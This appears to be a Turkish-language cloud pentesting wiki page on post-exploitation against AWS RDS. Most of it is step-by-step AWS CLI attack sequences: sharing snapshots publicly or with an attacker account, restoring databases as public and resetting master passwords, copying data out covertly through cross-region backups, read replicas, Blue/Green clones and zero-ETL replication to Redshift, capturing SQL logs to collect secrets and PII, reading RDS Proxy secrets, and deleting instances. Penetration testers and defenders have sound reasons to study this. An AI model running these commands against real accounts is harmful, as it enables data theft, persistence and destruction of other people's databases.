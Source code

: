 # AWS - RDS Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Daha fazla bilgi için bakınız:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Saldırgan yeterli izinlere sahipse, DB'nin bir snapshot'ını oluşturarak ve ardından snapshot'tan **DB publicly accessible** bir DB oluşturarak onu herkese açık hale getirebilir.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Bu izinlere sahip bir saldırgan, **bir DB'nin snapshot'ını oluşturup** bunu **herkese** **açık** hale getirebilir. Sonra, kendi hesabında o snapshot'tan bir DB oluşturabilir.

Eğer saldırgan **`rds:CreateDBSnapshot` iznine sahip değilse**, yine de oluşturulmuş **diğer** snapshot'ları **herkese** **açık** hale getirebilir.
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` yetkisine sahip bir attacker, **RDS instance'ın log dosyalarının bölümlerini indirebilir**. Eğer hassas veriler veya access credentials kazara loglanırsa, attacker bu bilgileri kullanarak privileges'larını escalate edebilir veya yetkisiz işlemler gerçekleştirebilir.
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
**Potential Impact**: leaked credentials kullanılarak hassas bilgilere erişim veya yetkisiz işlemler.

### `rds:DeleteDBInstance`

Bu izinlere sahip bir saldırgan mevcut RDS instance'larını **DoS** ile kullanılamaz hale getirebilir.
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**Potansiyel etki**: Mevcut RDS instance'larının silinmesi ve potansiyel veri kaybı.

### `rds:StartExportTask`

> [!NOTE]
> YAPILACAK: Test

Bu izne sahip bir saldırgan **bir RDS instance snapshot'ını bir S3 bucket'a dışa aktarabilir**. Eğer saldırgan hedef S3 bucket üzerinde kontrol sahibi ise, dışa aktarılan snapshot içindeki hassas verilere erişebilir.
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
**Potential impact**: Dışa aktarılan snapshot'taki hassas verilere erişim.

### Cross-Region Automated Backups Replication for Stealthy Restore (`rds:StartDBInstanceAutomatedBackupsReplication`)

Cross-Region automated backups replication'ı kötüye kullanarak bir RDS instance'ının automated backups'larını sessizce başka bir AWS Region'a kopyalayabilir ve orada restore edebilirsiniz. Ardından saldırgan restore edilen DB'yi genel erişime açabilir ve ana parolayı sıfırlayarak, savunucuların izlemiyor olabileceği bir Bölge'den veriye out-of-band erişim sağlayabilir.

Permissions needed (minimum):
- `rds:StartDBInstanceAutomatedBackupsReplication` hedef Bölge'de
- `rds:DescribeDBInstanceAutomatedBackups` hedef Bölge'de
- `rds:RestoreDBInstanceToPointInTime` hedef Bölge'de
- `rds:ModifyDBInstance` hedef Bölge'de
- `rds:StopDBInstanceAutomatedBackupsReplication` (opsiyonel temizlik)
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (restore edilen DB'yi açmak için)

Impact: Üretim verilerinin bir kopyasını başka bir Bölgeye restore ederek ve saldırgan kontrollü kimlik bilgileriyle bunu herkese açık hale getirerek kalıcılık ve veri sızdırma.

<details>
<summary>Uçtan uca CLI (yer tutucuları değiştirin)</summary>
```bash
# 1) Recon (SOURCE region A)
aws rds describe-db-instances \
--region <SOURCE_REGION> \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,DBInstanceStatus,PreferredBackupWindow]' \
--output table

# 2) Start cross-Region automated backups replication (run in DEST region B)
aws rds start-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN> \
--source-region <SOURCE_REGION> \
--backup-retention-period 7

# 3) Wait for replication to be ready in DEST
aws rds describe-db-instance-automated-backups \
--region <DEST_REGION> \
--query 'DBInstanceAutomatedBackups[*].[DBInstanceAutomatedBackupsArn,DBInstanceIdentifier,Status]' \
--output table
# Proceed when Status is "replicating" or "active" and note the DBInstanceAutomatedBackupsArn

# 4) Restore to latest restorable time in DEST
aws rds restore-db-instance-to-point-in-time \
--region <DEST_REGION> \
--source-db-instance-automated-backups-arn <AUTO_BACKUP_ARN> \
--target-db-instance-identifier <TARGET_DB_ID> \
--use-latest-restorable-time \
--db-instance-class db.t3.micro
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5) Make public and reset credentials in DEST
# 5a) Create/choose an open SG permitting TCP/3306 (adjust engine/port as needed)
OPEN_SG_ID=$(aws ec2 create-security-group --region <DEST_REGION> \
--group-name open-rds-<RAND> --description open --vpc-id <DEST_VPC_ID> \
--query GroupId --output text)
aws ec2 authorize-security-group-ingress --region <DEST_REGION> \
--group-id "$OPEN_SG_ID" \
--ip-permissions IpProtocol=tcp,FromPort=3306,ToPort=3306,IpRanges='[{CidrIp=0.0.0.0/0}]'

# 5b) Publicly expose restored DB and attach the SG
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids "$OPEN_SG_ID" \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5c) Reset the master password
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--master-user-password '<NEW_STRONG_PASSWORD>' \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 6) Connect to <TARGET_DB_ID> endpoint and validate data (example for MySQL)
ENDPOINT=$(aws rds describe-db-instances --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text)
mysql -h "$ENDPOINT" -u <MASTER_USERNAME> -p'<NEW_STRONG_PASSWORD>' -e 'SHOW DATABASES;'

# 7) Optional: stop replication
aws rds stop-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN>
```
</details>


### DB parameter groups aracılığıyla tam SQL logging'i etkinleştir ve RDS log APIs ile exfiltrate et

`rds:ModifyDBParameterGroup`'ı RDS log download APIs ile kullanarak uygulamalar tarafından yürütülen tüm SQL ifadelerini yakalayın (DB engine credentials gerekmez). Engine SQL logging'i etkinleştir ve dosya loglarını `rds:DescribeDBLogFiles` ve `rds:DownloadDBLogFilePortion` ile çek (veya REST `downloadCompleteLogFile`). Bu, secrets/PII/JWTs içerebilecek sorguları toplamak için faydalıdır.

Gerekli izinler (asgari):
- `rds:DescribeDBInstances`, `rds:DescribeDBLogFiles`, `rds:DownloadDBLogFilePortion`
- `rds:CreateDBParameterGroup`, `rds:ModifyDBParameterGroup`
- `rds:ModifyDBInstance` (sadece örnek varsayılanı kullanıyorsa özel bir parametre grubu eklemek için)
- `rds:RebootDBInstance` (yeniden başlatma gerektiren parametreler için, örn. PostgreSQL)

Adımlar
1) Recon hedefini ve mevcut parametre grubunu keşfet
```bash
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBParameterGroups[0].DBParameterGroupName]' \
--output table
```
2) Özel bir DB parameter group iliştirilmiş olduğundan emin olun (varsayılan düzenlenemez)
- Eğer instance zaten bir custom group kullanıyorsa, sonraki adımda adını tekrar kullanın.
- Aksi halde engine family ile eşleşen bir tane oluşturup iliştirin:
```bash
# Example for PostgreSQL 16
aws rds create-db-parameter-group \
--db-parameter-group-name ht-logs-pg \
--db-parameter-group-family postgres16 \
--description "HT logging"

aws rds modify-db-instance \
--db-instance-identifier <DB> \
--db-parameter-group-name ht-logs-pg \
--apply-immediately
# Wait until status becomes "available"
```
3) Ayrıntılı SQL kayıtlamayı etkinleştir
- MySQL motorları (anında / yeniden başlatma gerekmez):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=1,ApplyMethod=immediate" \
"ParameterName=log_output,ParameterValue=FILE,ApplyMethod=immediate"
# Optional extras:
#   "ParameterName=slow_query_log,ParameterValue=1,ApplyMethod=immediate" \
#   "ParameterName=long_query_time,ParameterValue=0,ApplyMethod=immediate"
```
- PostgreSQL engine'leri (yeniden başlatma gerekli):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=all,ApplyMethod=pending-reboot"
# Optional to log duration for every statement:
#   "ParameterName=log_min_duration_statement,ParameterValue=0,ApplyMethod=pending-reboot"

# Reboot if any parameter is pending-reboot
aws rds reboot-db-instance --db-instance-identifier <DB>
```
4) İş yükünün çalışmasına izin verin (veya sorgular oluşturun). İfadeler engine dosya kayıtlarına yazılacaktır
- MySQL: `general/mysql-general.log`
- PostgreSQL: `postgresql.log`

5) Kayıtları keşfedin ve indirin (DB kimlik bilgileri gerekmiyor)
```bash
aws rds describe-db-log-files --db-instance-identifier <DB>

# Pull full file via portions (iterate until AdditionalDataPending=false). For small logs a single call is enough:
aws rds download-db-log-file-portion \
--db-instance-identifier <DB> \
--log-file-name general/mysql-general.log \
--starting-token 0 \
--output text > dump.log
```
6) Hassas veriler için çevrimdışı analiz yapın
```bash
grep -Ei "password=|aws_access_key_id|secret|authorization:|bearer" dump.log | sed 's/\(aws_access_key_id=\)[A-Z0-9]*/\1AKIA.../; s/\(secret=\).*/\1REDACTED/; s/\(Bearer \).*/\1REDACTED/' | head
```
Örnek kanıt (sansürlenmiş):
```text
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('user=alice password=Sup3rS3cret!')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('authorization: Bearer REDACTED')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('aws_access_key_id=AKIA... secret=REDACTED')
```
Temizlik
- Parametreleri varsayılanlara geri döndür ve gerekirse yeniden başlat:
```bash
# MySQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=0,ApplyMethod=immediate"

# PostgreSQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=none,ApplyMethod=pending-reboot"
# Reboot if pending-reboot
```
Etkisi: Post-exploitation sırasında AWS API'leri üzerinden tüm uygulama SQL ifadelerini yakalayarak veri erişimi (no DB creds); potansiyel olarak secrets, JWTs ve PII'nin leak olma riski.

### `rds:CreateDBInstanceReadReplica`, `rds:ModifyDBInstance`

RDS read replicas'ları kötüye kullanarak birincil instance kimlik bilgilerine dokunmadan out-of-band okuma erişimi elde edilebilir. Bir saldırgan production instance'tan bir read replica oluşturabilir, replica'nın master parolasını sıfırlayabilir (bu primary'i değiştirmez) ve isteğe bağlı olarak verileri exfiltrate etmek için replicayı public olarak açabilir.

Gerekli izinler (asgari):
- `rds:DescribeDBInstances`
- `rds:CreateDBInstanceReadReplica`
- `rds:ModifyDBInstance`
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (if exposing publicly)

Etkisi: Saldırgan kontrollü kimlik bilgilerine sahip bir replica üzerinden production verilerine yalnızca okunur erişim; primary'e dokunulmadığı ve replication devam ettiği için tespit edilme olasılığı daha düşüktür.
```bash
# 1) Recon: find non-Aurora sources with backups enabled
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBInstanceArn,DBSubnetGroup.DBSubnetGroupName,VpcSecurityGroups[0].VpcSecurityGroupId,PubliclyAccessible]' \
--output table

# 2) Create a permissive SG (replace <VPC_ID> and <YOUR_IP/32>)
aws ec2 create-security-group --group-name rds-repl-exfil --description 'RDS replica exfil' --vpc-id <VPC_ID> --query GroupId --output text
aws ec2 authorize-security-group-ingress --group-id <SGID> --ip-permissions '[{"IpProtocol":"tcp","FromPort":3306,"ToPort":3306,"IpRanges":[{"CidrIp":"<YOUR_IP/32>","Description":"tester"}]}]'

# 3) Create the read replica (optionally public)
aws rds create-db-instance-read-replica \
--db-instance-identifier <REPL_ID> \
--source-db-instance-identifier <SOURCE_DB> \
--db-instance-class db.t3.medium \
--publicly-accessible \
--vpc-security-group-ids <SGID>
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 4) Reset ONLY the replica master password (primary unchanged)
aws rds modify-db-instance --db-instance-identifier <REPL_ID> --master-user-password 'NewStr0ng!Passw0rd' --apply-immediately
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 5) Connect and dump (use the SOURCE master username + NEW password)
REPL_ENDPOINT=$(aws rds describe-db-instances --db-instance-identifier <REPL_ID> --query 'DBInstances[0].Endpoint.Address' --output text)
# e.g., with mysql client:  mysql -h "$REPL_ENDPOINT" -u <MASTER_USERNAME> -p'NewStr0ng!Passw0rd' -e 'SHOW DATABASES; SELECT @@read_only, CURRENT_USER();'

# Optional: promote for persistence
# aws rds promote-read-replica --db-instance-identifier <REPL_ID>
```
Örnek kanıt (MySQL):
- Replika DB durumu: `available`, okuma replikasyonu: `replicating`
- Yeni parola ile başarılı bağlantı ve `@@read_only=1` ile salt okunur replikaya erişim doğrulandı.

### `rds:CreateBlueGreenDeployment`, `rds:ModifyDBInstance`

Kötüye kullanın RDS Blue/Green'i, üretim veritabanını sürekli replikasyonlu, salt okunur bir green ortama klonlamak için. Sonra green master kimlik bilgilerini sıfırlayarak blue (prod) instance'ına dokunmadan verilere erişin. Bu, snapshot sharing'den daha sinsi olup genellikle yalnızca kaynağa odaklanan izlemeyi atlatır.
```bash
# 1) Recon – find eligible source (non‑Aurora MySQL/PostgreSQL in the same account)
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,EngineVersion,DBSubnetGroup.DBSubnetGroupName,PubliclyAccessible]'

# Ensure: automated backups enabled on source (BackupRetentionPeriod > 0), no RDS Proxy, supported engine/version

# 2) Create Blue/Green deployment (replicates blue->green continuously)
aws rds create-blue-green-deployment \
--blue-green-deployment-name ht-bgd-attack \
--source <BLUE_DB_ARN> \
# Optional to upgrade: --target-engine-version <same-or-higher-compatible>

# Wait until deployment Status becomes AVAILABLE, then note the green DB id
aws rds describe-blue-green-deployments \
--blue-green-deployment-identifier <BGD_ID> \
--query 'BlueGreenDeployments[0].SwitchoverDetails[0].TargetMember'

# Typical green id: <blue>-green-XXXX

# 3) Reset the green master password (does not affect blue)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--master-user-password 'Gr33n!Exfil#1' \
--apply-immediately

# Optional: expose the green for direct access (attach an SG that allows the DB port)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids <SG_ALLOWING_DB_PORT> \
--apply-immediately

# 4) Connect to the green endpoint and query/exfiltrate (green is read‑only)
aws rds describe-db-instances \
--db-instance-identifier <GREEN_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text

# Then connect with the master username and the new password and run SELECT/dumps
# e.g. MySQL: mysql -h <endpoint> -u <master_user> -p'Gr33n!Exfil#1'

# 5) Cleanup – remove blue/green and the green resources
aws rds delete-blue-green-deployment \
--blue-green-deployment-identifier <BGD_ID> \
--delete-target true
```
Impact: Yazma izni yok ama üretimin neredeyse gerçek zamanlı klonuna tam veri erişimi sağlar; üretim örneğini değiştirmeden. Gizli veri çıkarma ve çevrimdışı analiz için kullanışlı.

### RDS Data API aracılığıyla bant-dışı SQL — HTTP endpoint'ini etkinleştirerek + master parolayı sıfırlayarak

Aurora'yı, hedef bir cluster'da RDS Data API HTTP endpoint'ini etkinleştirmek, master parolayı kontrolünüzdeki bir değere sıfırlamak ve HTTPS üzerinden SQL çalıştırmak için kötüye kullanın (VPC ağ yolu gerekmez). Data API/EnableHttpEndpoint'i destekleyen Aurora engine'lerde çalışır (ör. Aurora MySQL 8.0 provisioned; bazı Aurora PostgreSQL/MySQL sürümleri).

Permissions (minimum):
- rds:DescribeDBClusters, rds:ModifyDBCluster (or rds:EnableHttpEndpoint)
- secretsmanager:CreateSecret
- rds-data:ExecuteStatement (and rds-data:BatchExecuteStatement if used)

Impact: Ağ segmentasyonunu atlar ve DB'ye doğrudan VPC bağlantısı olmadan AWS API'leri aracılığıyla veri sızdırır.

<details>
<summary>Uçtan uca CLI (Aurora MySQL örneği)</summary>
```bash
# 1) Identify target cluster ARN
REGION=us-east-1
CLUSTER_ID=<target-cluster-id>
CLUSTER_ARN=$(aws rds describe-db-clusters --region $REGION \
--db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].DBClusterArn' --output text)

# 2) Enable Data API HTTP endpoint on the cluster
# Either of the following (depending on API/engine support):
aws rds enable-http-endpoint --region $REGION --resource-arn "$CLUSTER_ARN"
# or
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--enable-http-endpoint --apply-immediately

# Wait until HttpEndpointEnabled is True
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].HttpEndpointEnabled' --output text

# 3) Reset master password to attacker-controlled value
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--master-user-password 'Sup3rStr0ng!1' --apply-immediately
# Wait until pending password change is applied
while :; do
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
P=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].PendingModifiedValues.MasterUserPassword' --output text)
[[ "$P" == "None" || "$P" == "null" ]] && break
sleep 10
done

# 4) Create a Secrets Manager secret for Data API auth
SECRET_ARN=$(aws secretsmanager create-secret --region $REGION --name rdsdata/demo-$CLUSTER_ID \
--secret-string '{"username":"admin","password":"Sup3rStr0ng!1"}' \
--query ARN --output text)

# 5) Prove out-of-band SQL via HTTPS using rds-data
# (Example with Aurora MySQL; for PostgreSQL, adjust SQL and username accordingly)
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database mysql --sql "create database if not exists demo;"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "create table if not exists pii(note text);"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "insert into pii(note) values ('token=SECRET_JWT');"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "select current_user(), now(), (select count(*) from pii) as row_count;" \
--format-records-as JSON
```
</details>

Notlar:
- Eğer multi-statement SQL rds-data tarafından reddediliyorsa, ayrı execute-statement çağrıları yapın.
- modify-db-cluster --enable-http-endpoint'in etkisi olmayan motorlar için rds enable-http-endpoint --resource-arn kullanın.
- Motor/sürümün gerçekten Data API'yi desteklediğinden emin olun; aksi takdirde HttpEndpointEnabled False olarak kalır.


### RDS Proxy auth secrets aracılığıyla DB kimlik bilgilerini elde etme (`rds:DescribeDBProxies` + `secretsmanager:GetSecretValue`)

RDS Proxy yapılandırmasını kötüye kullanarak backend kimlik doğrulaması için kullanılan Secrets Manager secret'ını keşfedin, ardından veritabanı kimlik bilgilerini elde etmek için secret'ı okuyun. Pek çok ortam geniş `secretsmanager:GetSecretValue` izni verir; bu da DB kimlik bilgilerine düşük sürtünmeli bir pivot sağlar. Eğer secret bir CMK kullanıyorsa, yanlış yapılandırılmış KMS izinleri ayrıca `kms:Decrypt` iznini verebilir.

Gerekli izinler (minimum):
- `rds:DescribeDBProxies`
- `secretsmanager:GetSecretValue` on the referenced SecretArn
- Optional when the secret uses a CMK: `kms:Decrypt` on that key

Etkisi: Proxy üzerinde yapılandırılmış DB kullanıcı adı/parolasının anında ifşası; doğrudan DB erişimi veya daha fazla lateral movement olanağı sağlar.

Adımlar
```bash
# 1) Enumerate proxies and extract the SecretArn used for auth
aws rds describe-db-proxies \
--query DBProxies[*].[DBProxyName,Auth[0].AuthScheme,Auth[0].SecretArn] \
--output table

# 2) Read the secret value (common over-permission)
aws secretsmanager get-secret-value \
--secret-id <SecretArnFromProxy> \
--query SecretString --output text
# Example output: {"username":"admin","password":"S3cr3t!"}
```
Laboratuvar (yeniden üretmek için asgari gereksinimler)
```bash
REGION=us-east-1
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SECRET_ARN=$(aws secretsmanager create-secret \
--region $REGION --name rds/proxy/aurora-demo \
--secret-string username:admin \
--query ARN --output text)
aws iam create-role --role-name rds-proxy-secret-role \
--assume-role-policy-document Version:2012-10-17
aws iam attach-role-policy --role-name rds-proxy-secret-role \
--policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws rds create-db-proxy --db-proxy-name p0 --engine-family MYSQL \
--auth [AuthScheme:SECRETS] \
--role-arn arn:aws:iam::$ACCOUNT_ID:role/rds-proxy-secret-role \
--vpc-subnet-ids $(aws ec2 describe-subnets --filters Name=default-for-az,Values=true --query Subnets[].SubnetId --output text)
aws rds wait db-proxy-available --db-proxy-name p0
# Now run the enumeration + secret read from the Steps above
```
Temizlik (lab)
```bash
aws rds delete-db-proxy --db-proxy-name p0
aws iam detach-role-policy --role-name rds-proxy-secret-role --policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws iam delete-role --role-name rds-proxy-secret-role
aws secretsmanager delete-secret --secret-id rds/proxy/aurora-demo --force-delete-without-recovery
```
### Stealthy continuous exfiltration via Aurora zero‑ETL to Amazon Redshift (rds:CreateIntegration)

Aurora PostgreSQL zero‑ETL entegrasyonunu suistimal ederek üretim verilerini sizin kontrolünüzdeki bir Redshift Serverless namespace'e sürekli olarak replike edin. Belirli bir Aurora cluster ARN için CreateInboundIntegration/AuthorizeInboundIntegration yetkisi veren gevşek bir Redshift resource policy ile bir saldırgan, DB kimlik bilgileri, snapshot veya ağ açığı olmadan neredeyse gerçek zamanlı bir veri kopyası oluşturabilir.

Gerekli izinler (asgari):
- `rds:CreateIntegration`, `rds:DescribeIntegrations`, `rds:DeleteIntegration`
- `redshift:PutResourcePolicy`, `redshift:DescribeInboundIntegrations`, `redshift:DescribeIntegrations`
- `redshift-data:ExecuteStatement/GetStatementResult/ListDatabases` (sorgulamak için)
- `rds-data:ExecuteStatement` (istemci; gerekiyorsa veri başlatmak için)

Tested on: us-east-1, Aurora PostgreSQL 16.4 (Serverless v2), Redshift Serverless.

<details>
<summary>1) Create Redshift Serverless namespace + workgroup</summary>
```bash
REGION=us-east-1
RS_NS_ARN=$(aws redshift-serverless create-namespace --region $REGION --namespace-name ztl-ns \
--admin-username adminuser --admin-user-password 'AdminPwd-1!' \
--query namespace.namespaceArn --output text)
RS_WG_ARN=$(aws redshift-serverless create-workgroup --region $REGION --workgroup-name ztl-wg \
--namespace-name ztl-ns --base-capacity 8 --publicly-accessible \
--query workgroup.workgroupArn --output text)
# Wait until AVAILABLE, then enable case sensitivity (required for PostgreSQL)
aws redshift-serverless update-workgroup --region $REGION --workgroup-name ztl-wg \
--config-parameters parameterKey=enable_case_sensitive_identifier,parameterValue=true
```
</details>

<details>
<summary>2) Aurora kaynağına izin vermek için Redshift kaynak politikasını yapılandırın</summary>
```bash
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SRC_ARN=<AURORA_CLUSTER_ARN>
cat > rs-rp.json <<JSON
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AuthorizeInboundByRedshiftService",
"Effect": "Allow",
"Principal": {"Service": "redshift.amazonaws.com"},
"Action": "redshift:AuthorizeInboundIntegration",
"Resource": "$RS_NS_ARN",
"Condition": {"StringEquals": {"aws:SourceArn": "$SRC_ARN"}}
},
{
"Sid": "AllowCreateInboundFromAccount",
"Effect": "Allow",
"Principal": {"AWS": "arn:aws:iam::$ACCOUNT_ID:root"},
"Action": "redshift:CreateInboundIntegration",
"Resource": "$RS_NS_ARN"
}
]
}
JSON
aws redshift put-resource-policy --region $REGION --resource-arn "$RS_NS_ARN" --policy file://rs-rp.json
```
</details>

<details>
<summary>3) Aurora PostgreSQL kümesi oluşturun (Data API ve logical replication etkinleştirin)</summary>
```bash
CLUSTER_ID=aurora-ztl
aws rds create-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--engine aurora-postgresql --engine-version 16.4 \
--master-username postgres --master-user-password 'InitPwd-1!' \
--enable-http-endpoint --no-deletion-protection --backup-retention-period 1
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
# Serverless v2 instance
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--serverless-v2-scaling-configuration MinCapacity=0.5,MaxCapacity=1 --apply-immediately
aws rds create-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1 \
--db-instance-class db.serverless --engine aurora-postgresql --db-cluster-identifier $CLUSTER_ID
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
# Cluster parameter group for zero‑ETL
aws rds create-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg \
--db-parameter-group-family aurora-postgresql16 --description "APG16 zero-ETL params"
aws rds modify-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg --parameters \
ParameterName=rds.logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.enhanced_logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_backup,ParameterValue=0,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_globaldb,ParameterValue=0,ApplyMethod=pending-reboot
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--db-cluster-parameter-group-name apg16-ztl-zerodg --apply-immediately
aws rds reboot-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
SRC_ARN=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID --query 'DBClusters[0].DBClusterArn' --output text)
```
</details>

<details>
<summary>4) RDS'den zero‑ETL entegrasyonunu oluşturun</summary>
```bash
# Include all tables in the default 'postgres' database
aws rds create-integration --region $REGION --source-arn "$SRC_ARN" \
--target-arn "$RS_NS_ARN" --integration-name ztl-demo \
--data-filter 'include: postgres.*.*'
# Redshift inbound integration should become ACTIVE
aws redshift describe-inbound-integrations --region $REGION --target-arn "$RS_NS_ARN"
```
</details>

<details>
<summary>5) Redshift'te çoğaltılmış verileri maddileştirin ve sorgulayın</summary>
```bash
# Create a Redshift database from the inbound integration (use integration_id from SVV_INTEGRATION)
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "select integration_id from svv_integration"  # take the GUID value
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "create database ztl_db from integration '<integration_id>' database postgres"
# List tables replicated
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database ztl_db \
--sql "select table_schema,table_name from information_schema.tables where table_schema not in ('pg_catalog','information_schema') order by 1,2 limit 20;"
```
</details>

Testte gözlemlenen kanıtlar:
- redshift describe-inbound-integrations: Status ACTIVE for Integration arn:...377a462b-...
